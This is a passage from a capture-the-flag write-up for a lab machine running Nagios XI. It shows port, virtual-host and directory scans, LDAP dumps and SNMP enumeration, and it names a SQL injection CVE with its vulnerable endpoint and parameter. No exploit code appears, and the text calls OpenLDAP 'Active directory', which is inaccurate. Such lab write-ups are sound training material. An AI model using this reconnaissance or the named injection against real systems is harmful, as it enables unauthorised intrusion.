


## Initial enumeration

We are provided a singular IPv4 as entry point and indication that the backend is using Linux of some kind. I will start by running a whole port enumeration on the host:

```
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/xFgJTbVC36GNHaE0GG4n/bWZGaD2aE7lsFUvXVdbINrl0qzBPVCMuOE1HNf0LHi09obr2Upt9VURzpYdrQp/7SX2NDet9pb+UQnB1IgjRSxoIxjsOX756a7nzi71tdcR3I0sALQ4ay5I5GO4TvaVq+o8D01v94B0Qm47LVk7J3mN4wFR17lYcCnm0kwxNBsKsAgZVETxGtPgTP6hbauEk/SKGA5GASdWHvbVhRHgmBz2l7oPrTot5e+4m8A7/5qej2y5PZ9Hq/2yOldrNpS77ID689h2fcOLt4fZMUbxuDzQIqGsFLPhmJn5SUCG9aNrWcjZwSL2LtLUCRt6PbW39UAfGf47XWiSs/qTWwW/yw73S8n5oU5rBqH/peFIpQDh2iSmIhbDq36FPv5a2Qi8HyY6ApTAMFhwQE6MnxpysKLt/xEGSDUBXh+4PwnR0sXkxgnL8QtLXKC2YBY04jGG0DXGXxh3xEZ3vmPV961dcsNd6Up8mmSC43g5gj2ML/E=
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBbeArqg4dgxZEFQzd3zpod1RYGUH6Jfz6tcQjHsVTvRNnUzqx5nc7gK2kUUo1HxbEAH+cPziFjNJc6q7vvpzt4=
|   256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5o+WJqnyLpmJtLyPL+tEUTFbjMZkx3jUUFqejioAj7
80/tcp   open  http       syn-ack ttl 63 Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
389/tcp  open  ldap       syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after:  2297-08-25T21:46:55
| MD5:   b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
| SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
| -----BEGIN CERTIFICATE-----
| MIID/zCCAuegAwIBAgIUVhOvMcK6dv/Kvzplbf6IxOePX3EwDQYJKoZIhvcNAQEL
| BQAwgY0xCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZEb3JzZXQxFDASBgNVBAcMC0Jv
| dXJuZW1vdXRoMRIwEAYDVQQKDAlNb25pdG9yZWQxHTAbBgNVBAMMFG5hZ2lvcy5t
| b25pdG9yZWQuaHRiMSQwIgYJKoZIhvcNAQkBFhVzdXBwb3J0QG1vbml0b3JlZC5o
| dGIwIBcNMjMxMTExMjE0NjU1WhgPMjI5NzA4MjUyMTQ2NTVaMIGNMQswCQYDVQQG
| EwJVSzEPMA0GA1UECAwGRG9yc2V0MRQwEgYDVQQHDAtCb3VybmVtb3V0aDESMBAG
| A1UECgwJTW9uaXRvcmVkMR0wGwYDVQQDDBRuYWdpb3MubW9uaXRvcmVkLmh0YjEk
| MCIGCSqGSIb3DQEJARYVc3VwcG9ydEBtb25pdG9yZWQuaHRiMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1qRRCKn9wFGquYFdqh7cp4WSTPnKdAwkycqk
| a3WTY0yOubucGmA3jAVdPuSJ0Vp0HOhkbAdo08JVzpvPX7Lh8mIEDRSX39FDYClP
| vQIAldCuWGkZ3QWukRg9a7dK++KL79Iz+XbIAR/XLT9ANoMi8/1GP2BKHvd7uJq7
| LV0xrjtMD6emwDTKFOk5fXaqOeODgnFJyyXQYZrxQQeSATl7cLc1AbX3/6XBsBH7
| e3xWVRMaRxBTwbJ/mZ3BicIGpxGGZnrckdQ8Zv+LRiwvRl1jpEnEeFjazwYWrcH+
| 6BaOvmh4lFPBi3f/f/z5VboRKP0JB0r6I3NM6Zsh8V/Inh4fxQIDAQABo1MwUTAd
| BgNVHQ4EFgQU6VSiElsGw+kqXUryTaN4Wp+a4VswHwYDVR0jBBgwFoAU6VSiElsG
| w+kqXUryTaN4Wp+a4VswDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsFAAOC
| AQEAdPGDylezaB8d/u2ufsA6hinUXF61RkqcKGFjCO+j3VrrYWdM2wHF83WMQjLF
| 03tSek952fObiU2W3vKfA/lvFRfBbgNhYEL0dMVVM95cI46fNTbignCj2yhScjIz
| W9oeghcR44tkU4sRd4Ot9L/KXef35pUkeFCmQ2Xm74/5aIfrUzMnzvazyi661Q97
| mRGL52qMScpl8BCBZkdmx1SfcVgn6qHHZpy+EJ2yfJtQixOgMz3I+hZYkPFjMsgf
| k9w6Z6wmlalRLv3tuPqv8X3o+fWFSDASlf2uMFh1MIje5S/jp3k+nFhemzcsd/al
| 4c8NpU/6egay1sl2ZrQuO8feYA==
|_-----END CERTIFICATE-----
|_http-title: Nagios XI
5667/tcp open  tcpwrapped syn-ack ttl 63
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 - 5.5 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
```

I see a Active directory and Nagios.

* * *

## SSH:

As usual without knowing a valid pair of credentials we can't do much on the ssh service. I will move on for now and come back when I find a valid source.

* * *

## HTTP/S:

Both ports seems pointing to the same target which is Nagios XI:  


Even here we would normally need a valid set of credentials but before even starting to llok out for CVE I will check for possible hidden VHOSTS on the machine:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Monitored]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "https://monitored.htb" -H "Host:FUZZ.monitored.htb" -fl 75

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://monitored.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.monitored.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 75
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 896 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

Seems like no, but what about hidden web directories and files?

```
Target: https://monitored.htb/

[12:17:51] Starting: 
[12:17:53] 403 -  279B  - /.ht_wsr.txt
[12:17:53] 403 -  279B  - /.htaccess.bak1
[12:17:53] 403 -  279B  - /.htaccess.orig
[12:17:53] 403 -  279B  - /.htaccess.sample
[12:17:53] 403 -  279B  - /.htaccess.save
[12:17:53] 403 -  279B  - /.htaccess_extra
[12:17:53] 403 -  279B  - /.htaccess_orig
[12:17:53] 403 -  279B  - /.htaccess_sc
[12:17:53] 403 -  279B  - /.htaccessOLD
[12:17:53] 403 -  279B  - /.htaccessBAK
[12:17:53] 403 -  279B  - /.htaccessOLD2
[12:17:53] 403 -  279B  - /.html
[12:17:53] 403 -  279B  - /.htm
[12:17:53] 403 -  279B  - /.htpasswd_test
[12:17:53] 403 -  279B  - /.htpasswds
[12:17:53] 403 -  279B  - /.httr-oauth
[12:17:53] 403 -  279B  - /.php
[12:18:00] 403 -  279B  - /cgi-bin/
[12:18:06] 301 -  321B  - /javascript  ->  https://monitored.htb/javascript/
[12:18:08] 401 -  461B  - /nagios/
[12:18:08] 401 -  461B  - /nagios
[12:18:12] 403 -  279B  - /server-status/
[12:18:12] 403 -  279B  - /server-status

Task Completed
```

Again here nothing strange! Next I went back and after a quick search on google seems like there is a possible new CVE that involves SQLi via authenticated seession so right now it's still a issue for us!

https://nvd.nist.gov/vuln/detail/CVE-2023-40931

Now the exploit covers Nagios version 5.11 - 5.11.1 and the exploit involves a post request to **/nagiosxi/admin/banner\_message-ajaxhelper.php** and the **ID** parameter will be used to perform SQL injections.

&nbsp;

* * *

## LDAP:

We know as well we have a exponed port for the LDAP service on TCP/389, and usualyy we can't do much about it without a valid seet of credentials but I will try to check for more in formations but ENUM4linux is failing:

&nbsp;

```
=====================================
|    Listener Scan on 10.10.11.248    |
 =====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[-] Could not connect to SMB on 445/tcp: connection refused
[*] Checking SMB over NetBIOS
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 ====================================================
|    Domain Information via LDAP for 10.10.11.248    |
 ====================================================
[*] Trying LDAP
[+] Appears to be child DC
[-] Could not find long domain
```

Next I decided to use Metasploit and I enumerated the domain that seems resuting to "monitored.htb" and with an account "admin@monitored.htb":

```
┌──(root㉿kali)-[/home/millycash/Downloads/Monitored]
└─# cat 20240115123221_default_10.10.11.248_root_DSE_590881.txt 
# LDIF dump of 10.10.11.248:389     , base DN='root DSE'

# 
dn: 
configcontext: cn=config
entrydn: 
namingcontexts: dc=monitored,dc=htb
objectclass: top
objectclass: OpenLDAProotDSE
structuralobjectclass: OpenLDAProotDSE
subschemasubentry: cn=Subschema
supportedcontrol: 2.16.840.1.113730.3.4.18
supportedcontrol: 2.16.840.1.113730.3.4.2
supportedcontrol: 1.3.6.1.4.1.4203.1.10.1
supportedcontrol: 1.3.6.1.1.22
supportedcontrol: 1.2.840.113556.1.4.319
supportedcontrol: 1.2.826.0.1.3344810.2.3
supportedcontrol: 1.3.6.1.1.13.2
supportedcontrol: 1.3.6.1.1.13.1
supportedcontrol: 1.3.6.1.1.12
supportedextension: 1.3.6.1.4.1.4203.1.11.1
supportedextension: 1.3.6.1.4.1.4203.1.11.3
supportedextension: 1.3.6.1.1.8
supportedfeatures: 1.3.6.1.1.14
supportedfeatures: 1.3.6.1.4.1.4203.1.5.1
supportedfeatures: 1.3.6.1.4.1.4203.1.5.2
supportedfeatures: 1.3.6.1.4.1.4203.1.5.3
supportedfeatures: 1.3.6.1.4.1.4203.1.5.4
supportedfeatures: 1.3.6.1.4.1.4203.1.5.5
supportedldapversion: 3
supportedsaslmechanisms: DIGEST-MD5
supportedsaslmechanisms: NTLM
supportedsaslmechanisms: CRAM-MD5


┌──(root㉿kali)-[/home/millycash/Downloads/Monitored]
└─# cat 20240115123222_default_10.10.11.248_monitored.htb_960602.txt 
# LDIF dump of 10.10.11.248:389     , base DN='dc=monitored,dc=htb'

# dc=monitored,dc=htb
dn: dc=monitored,dc=htb
createtimestamp: 20231109152157Z
creatorsname: cn=admin,dc=monitored,dc=htb
dc: monitored
entrycsn: 20231109152157.799344Z#000000#000#000000
entrydn: dc=monitored,dc=htb
entryuuid: 77745478-135f-103e-9685-07c908eafea6
hassubordinates: FALSE
modifiersname: cn=admin,dc=monitored,dc=htb
modifytimestamp: 20231109152157Z
o: monitored.htb
objectclass: top
objectclass: dcObject
objectclass: organization
structuralobjectclass: organization
subschemasubentry: cn=Subschema
```

Same via NMAP that uses anonymous user for enumeration:

```
89/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
| ldap-search: 
|   Context: dc=monitored,dc=htb
|     dn: dc=monitored,dc=htb
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: monitored.htb
|_        dc: monitored
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       namingContexts: dc=monitored,dc=htb
|       supportedControl: 2.16.840.1.113730.3.4.18
|       supportedControl: 2.16.840.1.113730.3.4.2
|       supportedControl: 1.3.6.1.4.1.4203.1.10.1
|       supportedControl: 1.3.6.1.1.22
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.826.0.1.3344810.2.3
|       supportedControl: 1.3.6.1.1.13.2
|       supportedControl: 1.3.6.1.1.13.1
|       supportedControl: 1.3.6.1.1.12
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.1
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.3
|       supportedExtension: 1.3.6.1.1.8
|       supportedLDAPVersion: 3
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema
```

I think we should skip this one for now.

* * *

## SNMP:

Since something if off I went back and found out that SNMP service is up and running on the UDP protocoll:

```
161/udp open  snmp
| snmp-netstat: 
|   TCP  0.0.0.0:22           0.0.0.0:0
|   TCP  0.0.0.0:389          0.0.0.0:0
|   TCP  10.10.11.248:34488   10.10.16.3:9001
|   TCP  10.10.11.248:48508   10.10.16.3:9001
|   TCP  127.0.0.1:25         0.0.0.0:0
|   TCP  127.0.0.1:3306       0.0.0.0:0
|   TCP  127.0.0.1:5432       0.0.0.0:0
|   TCP  127.0.0.1:7878       0.0.0.0:0
|   TCP  127.0.0.1:42574      127.0.1.1:80
|   TCP  127.0.0.1:42584      127.0.1.1:80
|   UDP  0.0.0.0:68           *:*
|   UDP  0.0.0.0:123          *:*
|   UDP  0.0.0.0:161          *:*
|   UDP  0.0.0.0:162          *:*
|   UDP  10.10.11.248:123     *:*
|_  UDP  127.0.0.1:123        *:*
```

And it shows the whole SNMP logs:

```
msf6 auxiliary(scanner/snmp/snmp_enum) > run

[+] 10.10.11.248, Connected.

[*] System information:

Host IP                       : 10.10.11.248
Hostname                      : monitored
Description                   : Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
Contact                       : Me <root@monitored.htb>
Location                      : Sitting on the Dock of the Bay
Uptime snmp                   : 1 day, 17:19:13.72
Uptime system                 : 1 day, 17:19:03.41
System date                   : 2024-1-15 07:19:57.0

[*] Network information:

IP forwarding enabled         : no
Default TTL                   : 64
TCP segments received         : 3068286
TCP segments sent             : 2623503
TCP segments retrans          : 40790
Input datagrams               : 3094844
Delivered datagrams           : 3094405
Output datagrams              : 2467205

[*] Network interfaces:

Interface                     : [ up ] lo
Id                            : 1
Mac Address                   : :::::
Type                          : softwareLoopback
Speed                         : 10 Mbps
MTU                           : 65536
In octets                     : 14545468
Out octets                    : 14545468

Interface                     : [ up ] VMware VMXNET3 Ethernet Controller
Id                            : 2
Mac Address                   : 00:50:56:b9:0b:14
Type                          : ethernet-csmacd
Speed                         : 4294 Mbps
MTU                           : 1500
In octets                     : 410857577
Out octets                    : 986028814


[*] Network IP:

Id                  IP Address          Netmask             Broadcast           
2                   10.10.11.248        255.255.254.0       1                   
1                   127.0.0.1           255.0.0.0           0                   

[*] Routing information:

Destination         Next hop            Mask                Metric              
0.0.0.0             10.10.10.2          0.0.0.0             1                   
10.10.10.0          0.0.0.0             255.255.254.0       0                   
169.254.0.0         0.0.0.0             255.255.0.0         0                   

[*] TCP connections and listening ports:

Local address       Local port          Remote address      Remote port         State               
0.0.0.0             22                  0.0.0.0             0                   listen              
0.0.0.0             389                 0.0.0.0             0                   listen              
10.10.11.248        34488               10.10.16.3          9001                established         
10.10.11.248        48508               10.10.16.3          9001                established         
127.0.0.1           25                  0.0.0.0             0                   listen              
127.0.0.1           3306                0.0.0.0             0                   listen              
127.0.0.1           5432                0.0.0.0             0                   listen              
127.0.0.1           7878                0.0.0.0             0                   listen              
127.0.0.1           47072               127.0.1.1           80                  timeWait            
127.0.0.1           47076               127.0.1.1           80                  timeWait            

[*] Listening UDP ports:

Local address       Local port          
0.0.0.0             68                  
0.0.0.0             123                 
0.0.0.0             161                 
0.0.0.0             162                 
10.10.11.248        123                 
127.0.0.1           123                 

[*] Storage information:

Description                   : ["Physical memory"]
Device id                     : [#<SNMP::Integer:0x00007efc0cad6cb8 @value=1>]
Filesystem type               : ["Ram"]
Device unit                   : [#<SNMP::Integer:0x00007efc0cad8ec8 @value=1024>]
Memory size                   : 3.83 GB
Memory used                   : 2.69 GB

Description                   : ["Virtual memory"]
Device id                     : [#<SNMP::Integer:0x00007efc0caea6a0 @value=3>]
Filesystem type               : ["Virtual Memory"]
Device unit                   : [#<SNMP::Integer:0x00007efc0caee638 @value=1024>]
Memory size                   : 4.78 GB
Memory used                   : 2.69 GB

Description                   : ["Memory buffers"]
Device id                     : [#<SNMP::Integer:0x00007efc0caf4628 @value=6>]
Filesystem type               : ["Other"]
Device unit                   : [#<SNMP::Integer:0x00007efc0ca87c80 @value=1024>]
Memory size                   : 3.83 GB
Memory used                   : 188.48 MB

Description                   : ["Cached memory"]
Device id                     : [#<SNMP::Integer:0x00007efc0ca8c460 @value=7>]
Filesystem type               : ["Other"]
Device unit                   : [#<SNMP::Integer:0x00007efc0ca97770 @value=1024>]
Memory size                   : 1.96 GB
Memory used                   : 1.96 GB

Description                   : ["Shared memory"]
Device id                     : [#<SNMP::Integer:0x00007efc0caa5d98 @value=8>]
Filesystem type               : ["Other"]
Device unit                   : [#<SNMP::Integer:0x00007efc0caaf910 @value=1024>]
Memory size                   : 28.56 MB
Memory used                   : 28.56 MB

Description                   : ["Swap space"]
Device id                     : [#<SNMP::Integer:0x00007efc0cab4cf8 @value=10>]
Filesystem type               : ["Virtual Memory"]
Device unit                   : [#<SNMP::Integer:0x00007efc0cab8830 @value=1024>]
Memory size                   : 975.00 MB
Memory used                   : 0 bytes

Description                   : ["/run"]
Device id                     : [#<SNMP::Integer:0x00007efc0ca43580 @value=35>]
Filesystem type               : ["Fixed Disk"]
Device unit                   : [#<SNMP::Integer:0x00007efc0ca47888 @value=4096>]
Memory size                   : 391.95 MB
Memory used                   : 712.00 KB

Description                   : ["/"]
Device id                     : [#<SNMP::Integer:0x00007efc0ca59858 @value=36>]
Filesystem type               : ["Fixed Disk"]
Device unit                   : [#<SNMP::Integer:0x00007efc0ca62778 @value=4096>]
Memory size                   : 6.80 GB
Memory used                   : 5.39 GB

Description                   : ["/dev/shm"]
Device id                     : [#<SNMP::Integer:0x00007efc0ca6ec80 @value=38>]
Filesystem type               : ["Fixed Disk"]
Device unit                   : [#<SNMP::Integer:0x00007efc0ca726f0 @value=4096>]
Memory size                   : 1.91 GB
Memory used                   : 16.00 KB

Description                   : ["/run/lock"]
Device id                     : [#<SNMP::Integer:0x00007efc0c9f5128 @value=39>]
Filesystem type               : ["Fixed Disk"]
Device unit                   : [#<SNMP::Integer:0x00007efc0c9f83a0 @value=4096>]
Memory size                   : 5.00 MB
Memory used                   : 0 bytes


[*] File system information:

Index                         : noSuchInstance
Mount point                   : noSuchInstance
Access                        : noSuchInstance
Bootable                      : noSuchInstance

[*] Device information:

Id                  Type                Status              Descr               
196608              Processor           running             AuthenticAMD: AMD EPYC 7302P 16-Core Processor
196609              Processor           running             AuthenticAMD: AMD EPYC 7302P 16-Core Processor
262145              Network             running             network interface lo
262146              Network             running             network interface eth0
786432              Coprocessor         unknown             Guessing that there's a floating point co-processor

[*] Software components:

Index               Name                
1                   adduser_3.118+deb11u1_all
2                   alsa-topology-conf_1.2.4-1_all
3                   alsa-ucm-conf_1.2.4-2_all
4                   anacron_2.3-30_amd64
5                   analog_2:6.0-22+b1_amd64
6                   ansible_2.10.7+merged+base+2.10.8+dfsg-1_all
7                   apache2_2.4.56-1~deb11u2_amd64
8                   apache2-bin_2.4.56-1~deb11u2_amd64
9                   apache2-data_2.4.56-1~deb11u2_all
10                  apache2-doc_2.4.56-1~deb11u2_all
11                  apache2-utils_2.4.56-1~deb11u2_amd64
12                  apparmor_2.13.6-10_amd64
13                  apt_2.2.4_amd64     
14                  apt-listchanges_3.24_all
15                  apt-utils_2.2.4_amd64
16                  auditd_1:3.0-2_amd64
17                  autoconf_2.69-14_all
18                  automake_1:1.16.3-2_all
19                  autopoint_0.21-4_all
20                  autotools-dev_20180224.1+nmu1_all
21                  avahi-autoipd_0.8-5+deb11u2_amd64
22                  base-files_11.1+deb11u8_amd64
23                  base-passwd_3.5.51_amd64
24                  bash_5.1-2+deb11u1_amd64
25                  bash-completion_1:2.11-2_all
26                  bc_1.07.1-2+b2_amd64
27                  bind9-dnsutils_1:9.16.44-1~deb11u1_amd64
28                  bind9-host_1:9.16.44-1~deb11u1_amd64
29                  bind9-libs_1:9.16.44-1~deb11u1_amd64
30                  binutils_2.35.2-2_amd64
31                  binutils-common_2.35.2-2_amd64
32                  binutils-x86-64-linux-gnu_2.35.2-2_amd64
33                  bluetooth_5.55-3.1+deb11u1_all
34                  bluez_5.55-3.1+deb11u1_amd64
35                  bsdextrautils_2.36.1-8+deb11u1_amd64
36                  bsdutils_1:2.36.1-8+deb11u1_amd64
37                  build-essential_12.9_amd64
38                  busybox_1:1.30.1-6+b3_amd64
39                  bzip2_1.0.8-4_amd64 
40                  ca-certificates_20210119_all
41                  composer_2.0.9-2+deb11u1_all
42                  console-setup_1.205_all
43                  console-setup-linux_1.205_all
44                  coreutils_8.32-4+b1_amd64
45                  cpio_2.13+dfsg-7.1~deb11u1_amd64
46                  cpp_4:10.2.1-1_amd64
47                  cpp-10_10.2.1-6_amd64
48                  cron_3.0pl1-137_amd64
49                  curl_7.74.0-1.3+deb11u11_amd64
50                  dash_0.5.11+git20200708+dd9ef66-5_amd64
51                  dbus_1.12.28-0+deb11u1_amd64
52                  dc_1.07.1-2+b2_amd64
53                  debconf_1.5.77_all  
54                  debconf-i18n_1.5.77_all
55                  debhelper_13.3.4_all
56                  debian-archive-keyring_2021.1.1+deb11u1_all
57                  debian-faq_10.1_all 
58                  debianutils_4.11.2_amd64
59                  dh-autoreconf_20_all
60                  dh-strip-nondeterminism_1.12.0-1_all
61                  dictionaries-common_1.28.4_all
62                  diffutils_1:3.7-5_amd64
63                  dirmngr_2.2.27-2+deb11u2_amd64
64                  discover_2.1.2-8_amd64
65                  discover-data_2.2013.01.11+nmu1_all
66                  distro-info-data_0.51+deb11u4_all
67                  dmidecode_3.3-2_amd64
68                  dmsetup_2:1.02.175-2.1_amd64
69                  dnsutils_1:9.16.44-1~deb11u1_all
70                  doc-debian_6.5_all  
71                  dpkg_1.20.13_amd64  
72                  dpkg-dev_1.20.13_all
73                  dstat_0.7.4-6.1_all 
74                  dwz_0.13+20210201-1_amd64
75                  e2fsprogs_1.46.2-2_amd64
76                  eject_2.36.1-8+deb11u1_amd64
77                  emacsen-common_3.0.4_all
78                  ethtool_1:5.9-1_amd64
79                  exim4-base_4.94.2-7+deb11u2_amd64
80                  exim4-config_4.94.2-7+deb11u2_all
81                  exim4-daemon-light_4.94.2-7+deb11u2_amd64
82                  fakeroot_1.25.3-1.1_amd64
83                  fdisk_2.36.1-8+deb11u1_amd64
84                  file_1:5.39-3+deb11u1_amd64
85                  findutils_4.8.0-1_amd64
86                  firmware-linux-free_20200122-1_all
87                  fontconfig_2.13.1-4.2_amd64
88                  fontconfig-config_2.13.1-4.2_all
89                  fonts-dejavu-core_2.37-2_all
90                  fonts-liberation_1:1.07.4-11_all
91                  fping_5.0-1_amd64   
92                  freetds-common_1.2.3-1_all
93                  fuse_2.9.9-5_amd64  
94                  g++_4:10.2.1-1_amd64
95                  g++-10_10.2.1-6_amd64
96                  galera-4_26.4.11-0+deb11u1_amd64
97                  gawk_1:5.1.0-1_amd64
98                  gcc_4:10.2.1-1_amd64
99                  gcc-10_10.2.1-6_amd64
100                 gcc-10-base_10.2.1-6_amd64
101                 gcc-9-base_9.3.0-22_amd64
102                 gettext_0.21-4_amd64
103                 gettext-base_0.21-4_amd64
104                 git_1:2.30.2-1+deb11u2_amd64
105                 git-man_1:2.30.2-1+deb11u2_all
106                 gnupg_2.2.27-2+deb11u2_all
107                 gnupg-l10n_2.2.27-2+deb11u2_all
108                 gnupg-utils_2.2.27-2+deb11u2_amd64
109                 gpg_2.2.27-2+deb11u2_amd64
110                 gpg-agent_2.2.27-2+deb11u2_amd64
111                 gpg-wks-client_2.2.27-2+deb11u2_amd64
112                 gpg-wks-server_2.2.27-2+deb11u2_amd64
113                 gpgconf_2.2.27-2+deb11u2_amd64
114                 gpgsm_2.2.27-2+deb11u2_amd64
115                 gpgv_2.2.27-2+deb11u2_amd64
116                 graphviz_2.42.2-5_amd64
117                 grep_3.6-1+deb11u1_amd64
118                 groff-base_1.22.4-6_amd64
119                 grub-common_2.06-3~deb11u6_amd64
120                 grub-pc_2.06-3~deb11u6_amd64
121                 grub-pc-bin_2.06-3~deb11u6_amd64
122                 grub2-common_2.06-3~deb11u6_amd64
123                 gsasl-common_1.10.0-4+deb11u1_all
124                 guile-2.2-libs_2.2.7+1-6_amd64
125                 gzip_1.10-4+deb11u1_amd64
126                 hostname_3.23_amd64 
127                 iamerican_3.4.02-2_all
128                 ibritish_3.4.02-2_all
129                 ieee-data_20210605.1_all
130                 ienglish-common_3.4.02-2_all
131                 ifupdown_0.8.36_amd64
132                 init_1.60_amd64     
133                 init-system-helpers_1.60_all
134                 initramfs-tools_0.140_all
135                 initramfs-tools-core_0.140_all
136                 installation-report_2.78_all
137                 intltool-debian_0.35.0+20060710.5_all
138                 iproute2_5.10.0-4_amd64
139                 iptables_1.8.7-1_amd64
140                 iputils-ping_3:20210202-1_amd64
141                 isc-dhcp-client_4.4.1-2.3+deb11u2_amd64
142                 isc-dhcp-common_4.4.1-2.3+deb11u2_amd64
143                 iso-codes_4.6.0-1_all
144                 ispell_3.4.02-2_amd64
145                 iw_5.9-3_amd64      
146                 javascript-common_11+nmu1_all
147                 jq_1.6-2.1_amd64    
148                 jsonlint_1.8.3-2_all
149                 kbd_2.3.0-3_amd64   
150                 keyboard-configuration_1.205_all
151                 klibc-utils_2.0.8-6.1_amd64
